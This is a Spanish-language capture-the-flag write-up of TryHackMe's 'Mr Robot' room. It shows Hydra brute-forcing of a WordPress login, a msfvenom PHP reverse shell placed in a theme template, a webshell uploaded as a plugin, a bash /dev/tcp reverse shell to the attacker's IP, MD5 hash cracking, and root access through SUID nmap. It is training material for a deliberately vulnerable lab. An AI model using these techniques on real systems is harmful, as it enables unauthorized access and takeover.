# Mr Robot CTF

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3> 

<h3>Vulnerabilidad explotada: Ejecución remota de código mediante Plugin o File Upload</h3>

<h3> Fecha de resolución: 14/06/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/mrrobot" target="_blank">Mr Robot CTF</a></h3>

### *Leer el documentro en ingles* <a href="Mr_Robot_CTF_Ingles.md">Mr Robot CTF</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo 10.10.78.104

### Ping

```
ping -c 1 10.10.78.104
```

<p align="center"> 

</p>

**Si el ttl=63 es Linux**

Usaremos nmap, con el siguiente comando:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.78.104
```

<p align="center"> 

</p>


<div align="center">

| Open port | Service  | Version                          |
| --------- | -------- | -------------------------------- |
| 22        | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80        | http     | Apache httpd                     |
| 443       | ssl/http | Apache httpd                     |

</div>

## Exploración

En el navegador entramos en la siguiente url

```
http://10.10.78.104:443/
```

<p align="center"> 

</p>

Añadimos **HTTPS** al url, por tanto:

```
https://10.10.78.104:443/
```

Investigando, estos son los diferentes paths que nos podemos encontrar asociado en este protocolo, pero no encontramos nada interesante

<p align="center"> 

</p>

Quiero saber si hay mas paths oculto en este protocolo, por tanto llevaré acabo fuzzing web:

```
gobuster dir -u http://10.10.78.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
<p align="center"> 

</p>

Estamos antes una pagina web wordpress porque tiene rutas **wp-content** , **wp-login** t **wp-includes**

**A continuación, voy a ir investigar cada paths que me ha dado este comando:**

Escribiendo el **/login** he encontrado el **login.php**

```
https://10.10.78.104/wp-login.php
```

<p align="center"> 

</p>

Escribiendo **/robots** he encontrado algo muy interesante:

```
http://10.10.78.104/robots
```

<p align="center"> 

</p>

Escribo en el navegador lo siguiente:

```
http://10.10.78.104/key-1-of-3.txt
```

<p align="center"> 

</p>

**Nos encontramos nuestra primera bandera**

Además, me encuentro un diccionario

```
http://10.10.78.104/fsocity.dic
```
<p align="center"> 

</p>

### A continuación voy a explicar dos formas de como conseguir el usuario y contraseña para el loging de Wordpress

### Primera forma:

Tenemos que interceptar el fallo del login en wordpress, para ellos usaremos **burp suite**

Primero en nuestro navegador tenemos que tener lo siguiente preparado:

**Settings - en el buscador (proxy) - Settings - Manual proxy configurations**

<p align="center"> 

</p>

En burp suite, nos vamos a:

**Proxy - Intercept - Intercept on**

<p align="center"> 

</p>

Luego en el el navegador, introducimos malamente las credenciales

<p align="center"> 

</p>

¡¡El error es muy importante!!, lo tenemos en cuenta. Luego en **burp suite** habrá interceptado los datos de la pagina:

<p align="center"> 

</p>

Este formulario HTML tradicional, usa **Post**, por tanto el módulo que usaremos en el comando **hydra** para hacer fuerza bruta  es **http-post-form**, por otro lado, esta línea tenemos que modificarla

```
log=robots&pwd=sdadas&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1
```
hay que cambiarlo por:

```
log=^USER^
pwd=^PASS^
F=Invalid username
```

Por tanto, la línea modificada quedaría así:

```
log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1:F=Invalid username
```

Por tanto, el comando usado en hydra, sería:

```
hydra -L fsocity.dic -p robots 10.10.195.102 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

<p align="center"> 

</p>

Luego para conseguir la contraseña, el comando tiene que variar un poco:

En esta línea
```
log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1:F=Invalid username
```
solo cambiaría lo del final por 

```
S=302
```
Usamos S=302 lo usamos en wordpress porque significa entrega **exitoso**.

Por tanto el comando en cuestión sería:

```
hydra -l elliot -P fsocity.dic 10.10.224.56 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.224.56%2Fwp-admin%2F&testcookie=1:S=302"
```

<p align="center"> 

</p>

**Lo malo, es que te tarda bastante en sacarte la contraseña, ya que el diccionario es muuuuuuuuuuuuuuuuuuy, más de 15 minutos tarda**

No olvidemos de ir a **Settings - en el buscador (proxy) - Settings - No proxy**
Sino, no nos funcionará la página.

<p align="center"> 

</p>

### Segunda forma:

Tenemos que visitara al siguiente enlace e irnos al final:

```
http://10.10.78.104/license
```

<p align="center"> 

</p>

Esto me suena que está codificado en **base64**

*ZWxsaW90OkVSMjgtMDY1Mgo=*

El comando que uso para descodificarlo es:

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```

<p align="center"> 

</p>

El usuario es elliot
La contraseña es **ER28-0652**

<p align="center"> 

</p>

## Explotación

Podemos hacerlo de dos dormas:

### Primera forma

Para explotar este Wordpress nos venimos a **appearance** - **editor** y nos situamos en **404 Template** (Página de error)

<p align="center"> 

</p>

Borramos todo, a continuación, creamos un archivo malicioso mfsvenom

```
msfvenom -p php/reverse_php LHOST=10.8.139.36 LPORT=443 -f raw > wordpress.php
```
Luego, copiamos todo el contenido de **wordpress.php**  y lo copiamos en **404 Template** de Wordpress

<p align="center"> 

</p>

Le damos a **update file**

Preparamos el puerto de escucha en nuestra kali:

```
sudo nc -lvnp 443
```

Recargo la pagina de error 404

```
http://10.10.17.188/404.php
```

<p align="center"> 

</p>

### Segunda forma

Irte a **plugins - Add new - upload plugin**

<p align="center"> 

</p>


En la kali usa los siguiente comandos:

```
cp /usr/share/webshells/php/php-reverse-shell.php /home/kali/Desktop
```

Aquí es donde se encuentra la plantilla que tenemos que editar 
**/usr/share/webshells/php/php-reverse-shell.php**

Luego ese fichero que nos hemos traído al escritorio hay que editarlo para que wordpress nos lo detecte:

<p align="center"> 

</p>

**Es muy importante, añadir lo que hemos señalado porque sino wordpress no nos dejará subir el plugins**

```
/*
Plugin Name: Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: shell
Domain Path: /languages
*/
```

Lo siguiente sirve para prepara restablecer la shell de la maquina objetivo en nuestra kali, en mi caso, sería así:

<p align="center"> 

</p>

```
$ip = '10.10.78.104'; 
$port = 444;       
```

**Lo guardamos dentro de una carpeta y lo comprimimos en .zip**

<p align="center"> 

</p>

Activamos el puerto de escucha:

```
nc -lvp 444
```
Activamos el plugins

<p align="center"> 

</p>

Resultado:

<p align="center"> 

</p>

## Tenemos que conseguir una conexión más estable

Por tanto, en otra terminal, activamos el puerto de escucha:
```
sudo nc -lvnp 4444
```
Luego, en las sesión reciente abierta, metemos este comando:

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/4444 0>&1"
```
<p align="center"> 

</p>

### Tratamiento de la TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Sino funciona la TTY tenemos la alternativa de Python

En alternativa de la tty, usaremos este comando:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

<p align="center"> 

</p>

-------------------------------------------------------

Nos situamos en /home/robot

<p align="center"> 

</p>

robot:c3fcd3d76192e4007dfb496cca67e13b

usuario robot
contraseña hasheada en md5

**Lo podemos hacer de dos forma**

### Primer forma

Nos vamos a esta pagina: <a href="https://iotools.cloud/es/tool/md5-decrypt/" target="_blank">Desencriptar md5</a>

<p align="center"> 

</p>

La contraseña es abcdefghijklmnopqrstuvwxyz

### Segunda forma

Usamos este comando:

```
hashcat -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```
**-m 0 -->** Significa que estas descodificando md5\
**md5.txt** --> Es donde guardamos el hash md5

<p align="center"> 

</p>

--------------------------------

**NO OLVIDEMOS QUE TENEMOS EL PUERTO SSH ABIERTO**

```
ssh robot@10.10.17.188
abcdefghijklmnopqrstuvwxyz
```
<p align="center"> 

</p>

**Segunda bandera conseguida**

# Escalada de Privilegios

Realizamos el siguiente comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Luego visitamos esta pagina: <a href="https://gtfobins.github.io" target="_blank">Gtfobins</a>

Descubrimos que con **nmap** hay vulnerabilidad, **pero no funciona con la pagina gtfobins. Por tanto investigamos en internet**

Me encuentro esta página interesante: <a href="https://w0lfram1te.com/privilege-escalation-with-nmap" target="_blank">Ruta alternativa</a>

<p align="center"> 

</p>

Ejecutando estos comandos, conseguimos root

```
nmap --interactive
!sh
```

<p align="center"> 

</p>

Luego hacemos lo siguiente para alcanzar la tercera bandera

```
cd /root
ls
cat key-3-of-3.txt
```
<p align="center"> 

</p>

**Tercera bandera conseguida**

## Conclusion

En esta máquina, el puerto 80 (http) se encontraba abierto, lo que me permitió repasar técnicas de fuzzing web. A partir de los paths que identifiqué con el fuzzing, logré encontrar las credenciales de acceso. Durante el análisis, detecté que se trataba de un WordPress, lo que abrió la puerta a distintas posibilidades de explotación que fui probando.

Finalmente, para la escalada de privilegios, usando el comando **find / -perm -4000 2>/dev/null** me me di cuenta que con nmap se puede escalar privilegio. 


